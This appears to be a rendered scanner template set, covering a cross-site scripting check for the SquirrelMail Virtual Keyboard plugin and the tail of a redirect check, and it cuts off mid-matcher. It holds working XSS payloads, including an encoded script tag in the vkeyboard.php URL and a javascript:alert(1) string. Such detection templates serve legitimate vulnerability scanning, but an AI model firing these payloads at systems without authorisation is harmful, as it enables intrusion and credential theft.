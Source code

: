 ### Matchers

**Type - word**

- words
  1. javascript:alert(1)
- part - body

**Type - status**

- status
  1. 302

**Type - word**

- words
  1. Location: aaaaa
  2. text/html
- part - header
- condition - and

---

# SquirrelMail Virtual Keyboard \<=0.9.1 - Cross-Site Scripting

## Description

- SquirrelMail Virtual Keyboard plugin 0.9.1 and prior contains a cross-site scripting vulnerability via the vkeyboard.php parameter. It fails to properly sanitize user-supplied input, which allows an attacker to execute arbitrary script in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
- severity - medium
- tags - xss,squirrelmail,plugin,edb

## Requests

- Method - GET

### URL

- {{BaseURL}}/plugins/vkeyboard/vkeyboard.php?passformname=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

### Matchers

**Type - status**

- status
  1. 200

**Type - word**
